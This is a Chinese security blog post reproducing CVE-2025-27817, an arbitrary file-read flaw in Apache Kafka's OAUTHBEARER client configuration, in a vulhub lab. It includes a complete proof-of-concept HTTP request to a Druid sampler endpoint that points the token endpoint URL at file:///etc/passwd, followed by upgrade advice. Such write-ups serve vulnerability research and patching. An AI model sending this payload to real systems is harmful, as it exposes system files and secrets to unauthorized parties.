 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247485966&idx=1&sn=502623af4e680d22ab43973a413eee69

#  【漏洞复现】Kafka Connect任意文件读取漏洞（CVE-2025-27817)  
徐志洋  玄武盾网络技术实验室   2025-06-20 15:29  
  
##     “ 对我们感兴趣的话就点个关注吧！”  
  
## 免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
##   
## 漏洞介绍  
  
Apache Kafka 是一个开源分布式事件流平台，被数千家公司用于高性能数据管道、流分析、数据集成和任务关键型应用程序。Apache Kafka 客户端接受用于设置与代理的 SASL/OAUTHBEARER 连接的配置数据，包括“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”。Apache Kafka 允许客户端读取任意文件并返回错误日志中的内容，或将请求发送到意外位置。在 Apache Kafka 客户端配置可由不受信任的一方指定的应用程序中，攻击者可能会使用“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”配置来读取磁盘和环境变量的任意内容或向意外位置发出请求。  
## 影响范围  
  
3.1.0 ≤ Apache Kafka < 3.9.1  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRwicK7VYD0yPDkCCWMqibo21wQsiamAIQP4dwYXavDQEwmFZDX0zNSqEm3w/640?wx_fmt=jpeg "")  
  
环境搭建，使用vulhub的之前漏洞环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRw2sf0vd4WeicbyPEuZ5HEUFwpD0B0wydeQfeIDNiahw7t6uF025z7AJibA/640?wx_fmt=png "")  
  

```
https://github.com/vulhub/vulhub/blob/master/kafka/CVE-2023-25194
```

  
  
poc测试  

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 192.168.168.130:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1752
{
    &#34;type&#34;:&#34;kafka&#34;,
    &#34;spec&#34;:{
        &#34;type&#34;:&#34;kafka&#34;,
        &#34;ioConfig&#34;:{
            &#34;type&#34;:&#34;kafka&#34;,
            &#34;consumerProperties&#34;:{&#34;bootstrap.servers&#34;: &#34;127.0.0.1:6666&#34;,&#34;sasl.mechanism&#34;: &#34;OAUTHBEARER&#34;,&#34;security.protocol&#34;: &#34;SASL_SSL&#34;,&#34;sasl.login.callback.handler.class&#34;: &#34;org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler&#34;,&#34;sasl.oauthbearer.token.endpoint.url&#34;:&#34;file:///etc/passwd&#34;,&#34;sasl.jaas.config&#34;: &#34;org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required sasl.oauthbearer.token.endpoint.url=\&#34;http://127.0.0.1/token\&#34; sasl.oauthbearer.jwks.endpoint.url=\&#34;http://127.0.0.1/jwks\&#34; sasl.oauthbearer.client.id=your-client-id sasl.oauthbearer.client.secret=your-client-secret sasl.oauthbearer.expected.audience=kafka sasl.oauthbearer.expected.issuer=\&#34;http://127.0.0.1\&#34; useFirstPass=true serviceName=kafka debug=true;&#34;},
            &#34;topic&#34;:&#34;test&#34;,
            &#34;useEarliestOffset&#34;:true,
            &#34;inputFormat&#34;:{
                &#34;type&#34;:&#34;regex&#34;,
                &#34;pattern&#34;:&#34;([\\s\\S]*)&#34;,
                &#34;listDelimiter&#34;:&#34;56616469-6de2-9da4-efb8-8f416e6e6965&#34;,
                &#34;columns&#34;:[
                    &#34;raw&#34;
                ]
            }
        },
        &#34;dataSchema&#34;:{
            &#34;dataSource&#34;:&#34;sample&#34;,
            &#34;timestampSpec&#34;:{
                &#34;column&#34;:&#34;!!!_no_such_column_!!!&#34;,
                &#34;missingValue&#34;:&#34;1970-01-01T00:00:00Z&#34;
            },
            &#34;dimensionsSpec&#34;:{
            },
            &#34;granularitySpec&#34;:{
                &#34;rollup&#34;:false
            }
        },
        &#34;tuningConfig&#34;:{
            &#34;type&#34;:&#34;kafka&#34;
        }
    },
    &#34;samplerConfig&#34;:{
        &#34;numRows&#34;:500,
        &#34;timeoutMs&#34;:15000
    }
}
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRwcCoW8te3XzRuWU8JNKvLiakic23kB6j47ACpqXNYGODiaEoo3PEmOGFHg/640?wx_fmt=png "")  
## 修复意见  
  
官方已发布最新版本修复该漏洞，建议受影响用户将Apache Kafka更新到3.9.1及以上版本。  
  
下载链接：  
  
https://github.com/apache/kafka/tags   
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=png "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
  
  
  
  
  
